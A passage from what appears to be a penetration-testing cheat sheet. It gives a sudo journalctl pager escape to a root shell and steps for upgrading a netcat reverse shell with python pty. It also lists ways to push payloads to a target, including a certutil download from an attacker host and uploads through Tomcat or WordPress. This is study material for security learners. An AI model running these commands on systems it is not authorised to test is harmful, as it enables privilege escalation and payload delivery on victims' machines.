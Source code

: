 ### More or Less Command

- **If any file we found in low priv user and it contains something like this, we can execute it and minimize the size of terminal to enter the visual mode and enter `!/bin/bash` to get root shell.**

```
> $ cat new.sh 
#!/bin/bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

```
> $ sh new.sh 
-- Logs begin at Sun 2019-11-17 19:19:25 EST, end at Mon 2019-11-18 17:13:44 EST. --
Nov 18 17:02:26 kali sudo[11538]: pam_unix(sudo:auth): authentication failure; logname= uid=33 eu
Nov 18 17:02:29 kali sudo[11538]: pam_unix(sudo:auth): conversation failed
Nov 18 17:02:29 kali sudo[11538]: pam_unix(sudo:auth): auth could not identify password for [www-
Nov 18 17:02:29 kali sudo[11538]: www-data : command not allowed ; TTY=unknown ; PWD=/tmp ; USER=
Nov 18 17:02:29 kali crontab[11595]: (www-data) LIST (www-data)
!/bin/bash
root # 
```

### Improve Shell

**To get the better Shell after taking control of the system.**

```
www-data@machine:/var/www/html$ python3 -c "import pty;pty.spawn('/bin/bash')"
<html$ python3 -c "import pty;pty.spawn('/bin/bash')"                        
www-data@machine:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 443
root@kali:# stty raw -echo
----------------------Here we need to type `fg` and press Enter `Twice`
root@kali:# nc -nlvp 443 
www-data@machine:/var/www/html$ export TERM=xterm
```

### Transfer Files from Host to Target Machine

- Use `python -m SimpleHTTPServer` in the host folder.
- Use Apache and put files in `/var/www/html/` folder.
- If Tomcat is Opened, upload the file/payload using the Admin panel.
- If wordpress is running, upload the file as plugin.
- In Windows Victim, use `certutil -urlcache -f http://<HOST_IP>/<FILE_NAME> <OUTPUT_FILE_NAME>`

## Tools

### Reconnoitre

**Security tool for multithreaded information gathering and service enumeration whilst building directory structures to store results, along with writing out recommendations for further testing.**

- [Link](https://github.com/codingo/Reconnoitre)
    